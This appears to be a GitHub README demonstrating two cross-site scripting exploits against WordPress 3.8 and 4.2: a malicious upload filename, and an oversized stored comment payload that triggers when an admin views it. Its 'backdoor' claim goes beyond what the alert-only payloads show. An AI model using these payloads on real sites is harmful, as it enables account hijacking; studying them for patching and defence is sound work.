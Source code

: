 # WPHAX 

## **Exploit 1**
WP Version used: **3.8**

**Description:**
"Upload media" section can be hacked with **XSS**.

**Steps:**

* Go to **Upload Media** menu.
* Upload a file which is more than **20MB** with *"file<img src=x onerror=alert("hacked")>.png"* name.

![Our user is author, so can upload media](https://i.imgur.com/z6pj5HV.png)
![Upload Media](https://i.imgur.com/Ad0wZIt.png)
![XSS](https://i.imgur.com/aRp2L62.png)

## **Exploit 2**
WP Version used: **4.2**

**Description:**
Stored **XSS** can be executed with malicious comment.

**Steps:**

* Leave a comment:

`<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>`
* Wait for admin to view the comment on the page
* Backdoor is now available

![Leave the comment](https://i.imgur.com/VVD3ZqO.png)
![View as admin](https://i.imgur.com/wwVBiiG.png)

